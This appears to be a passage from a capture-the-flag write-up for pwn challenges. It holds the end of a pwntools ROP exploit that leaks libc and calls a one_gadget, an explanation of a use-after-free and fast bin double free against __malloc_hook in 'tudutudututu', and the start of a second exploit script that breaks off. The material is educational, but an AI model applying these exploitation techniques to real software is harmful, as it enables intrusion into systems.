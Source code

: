 ```python  
rop += p64(0x400806) #back to main

exploit_main(rop)

libc_addr = u64(sh.recvuntil('\x7f') + '\x00\x00') - e.symbols["puts"]  
print hex(libc_addr)

exploit_main(p64(0) + p64(libc_addr + ONE_GADGET_OFF))

sh.interactive()  
```

## tudutudututu

The program can create a `todo`, set the `description`, delete and print.

The `todo` structure is as shown below

```assembly  
00000000 todo            struc ; (sizeof=0x10, align=0x8, mappedto_6)  
00000000 topic           dq ?                    ; offset  
00000008 description     dq ?                    ; offset  
00000010 todo            ends  
```

The problem is, when creating the `todo` structure, the `description` field is
not initialized. This can create UAF and arbitrary read.

Firstly since there is no PIE, we use arbitrary read to leak the address in
`got` table, here we can also find the `libc` version, which is `2.23`.

Then, because `topic` is freed before `description`, the `description` is on
the top of `topic` in the fast bin if they have same size. In this way if we
allocate `todo` again, the UAF caused by no initialization of `description`
field can give us heap address.

Then control the `description` field to point to a already freed `0x70` chunk,
then set the description to cause double free, which poisons the fast bin and
enable the fast bin attack. We can use `0x7f` trick to `malloc` a chunk onto
`__malloc_hook`, and hijack the `rip` to `one_gadget`. Since buffer on the
stack used to get input is quite large and we can easily set them to `0`, the
condition of `one_gadget` can be easily satisfied.

```python  
from pwn import *  
import json  
g_local=True  
context.log_level='debug'  
p = ELF('./challenge')  
e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")  
ONE_GADGET_OFF = 0xf1147  
if g_local:  
	sh = process('./challenge')#env={'LD_PRELOAD':'./libc.so.6'}  
	gdb.attach(sh)  
else:  
	sh = remote("pwn.ctf.nullcon.net", 4003)

sh.recvuntil("> ")

def create(topic):  
	sh.sendline("1")  
	sh.recvuntil("topic: ")  
	sh.sendline(topic)  
	sh.recvuntil("> ")

def set_data(topic, data, data_len):  
```